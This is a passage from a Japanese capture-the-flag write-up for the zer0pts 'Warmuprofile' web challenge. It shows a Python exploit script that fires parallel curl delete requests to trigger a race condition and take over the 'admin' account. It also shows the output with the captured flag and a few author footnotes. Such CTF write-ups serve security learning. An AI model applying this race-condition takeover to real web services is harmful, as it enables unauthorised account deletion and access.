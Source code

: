 ```python
client = httpx.Client(auth=(CS_USERNAME, CS_PASSWORD))

username = "".join(random.choices(string.ascii_letters, k=8))
password = "".join(random.choices(string.ascii_letters, k=8))

res = client.post(
    f"{BASE_URL}/register",
    data={
        "username": username,
        "password": password,
        "profile": "x",
    },
)
sid = res.cookies["connect.sid"]

curl_cmd = f"curl -X POST '{BASE_URL}/user/{username}/delete' -b 'connect.sid={sid}' -u '{CS_USERNAME}:{CS_PASSWORD}'"
subprocess.run(
    f"{curl_cmd} & {curl_cmd} & {curl_cmd} & {curl_cmd} & {curl_cmd} & {curl_cmd}",
    shell=True,
    capture_output=True,
)

res = client.post(
    f"{BASE_URL}/register",
    data={
        "username": "admin",
        "password": "admin",
        "profile": "x",
    },
)
assert res.status_code == 302, res

print(client.get(f"{BASE_URL}/flag").text)
```

```shell
$ python exploit.py
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag - Warmuprofile</title>
    <link rel="stylesheet" href="https://unpkg.com/sakura.css/css/sakura.css" type="text/css">
    <link rel="stylesheet" href="/style.css" type="text/css">
</head>
<body>
    <h1>Flag</h1>

    <p>Congratulations! The flag is: <code>zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}</code></p>
</body>
</html>
```


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。
